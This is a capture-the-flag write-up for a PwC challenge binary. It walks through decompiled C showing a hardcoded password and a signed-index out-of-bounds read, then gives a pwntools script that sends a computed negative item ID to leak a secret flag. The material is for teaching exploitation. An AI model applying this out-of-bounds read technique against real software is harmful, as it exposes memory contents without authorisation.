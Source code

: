 # Hack The Binary 1

<div class="hidden">
    <details>
        <summary>Keywords</summary>
        PwC CTF: Hack A Day 2023 - Securing AI, pwn, oob
    </details>
</div>

## TL;DR

Array OOB read

## Initial Analysis

When we try to run the binary file, we are first prompted to enter a 4-digit
password. Looking at the decompilation output, the password is hardcoded in
`password_checker()` function, i.e., `1235`

![initial](./img/1.png)

```c
__int64 __fastcall password_checker(int password) {
  __int64 result; // rax

  if ( password == 1235 ) {
    puts("Login Successfully\n");
    result = 1LL;
  }
  else {
    if ( password <= 999 || password > 9999 )
      puts("Please Enter 4 digit numbers!\n");
    else
      puts("Invalid password!\n");
    result = 0LL;
  }
  return result;
}
```

![passing the password checker](./img/2.png)

Next, we could see that inside `management_system()` function, we could see
that we are allowed to query an item whose ID is less than or equal to 14.
However, notice that there is no check for negative item ID and the variable
data type is a **signed** integer.

```c
void __fastcall management_system() {
  int input; // [rsp+4h] [rbp-Ch]
  unsigned int j; // [rsp+8h] [rbp-8h]
  unsigned int i; // [rsp+Ch] [rbp-4h]

  while ( 1 ) {
    while ( 1 ) {
      while ( 1 ) {
        while ( 1 ) {
          puts("--- Welcome to the Management System ---");
          puts("1. User List ");
          puts("2. Item List ");
          puts("3. Search for Item Storage ");
          puts("4. Exit");
          printf("Enter your choice: ");
          __isoc99_scanf("%d", &input);
          if ( input != 1 )
            break;
          for ( i = 0; (int)i <= 17; ++i )
            printf("UserID - %d  %s\n", i, userlist[i]);
          putchar('\n');
        }
        if ( input != 2 )
          break;
        for ( j = 0; (int)j <= 14; ++j )
          printf("ItemID - %d  %s\n", j, item[2 * (int)j]);
        putchar('\n');
      }
      if ( input != 3 )
        break;
      printf("Please Enter item ID: ");
      __isoc99_scanf("%d", &input);
      if ( input <= 14 )
        printf("\nStorage of %s: %s\n\n", item[2 * input], off_4888[2 * input]);
      else
        puts("Invalid item ID!\n");
    }
    if ( input == 4 )
      break;
    puts("Invalid Input!");
  }
}
```

This means that we could provide a negative item ID, e.g., `-4`, and it would access
memory address lower than `item` and return the value there. Looking at interesting
things that we could read with negative item ID, we could see that there is a
variable named secret which contains the flag.

![secret](./img/3.png)

## Solution

Now that we know we could read the flag by providing a negative item ID, the next
step is to calculate the exact value to properly access the flag. To do this, we
could simply subtract the distance between `item` and `secret` and then divides
the value by 16.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

item = elf.sym["item"]
secret = elf.sym["secret"]
delta = (item - secret) // 16
log.info(f"{delta=:#x}")

io.sendlineafter(b"numbers): ", b"1235")
io.sendlineafter(b"choice: ", b"3")
io.sendlineafter(b"ID: ", str(delta * -1).encode())
io.recvuntil(b"Storage of ")

io.interactive()
```
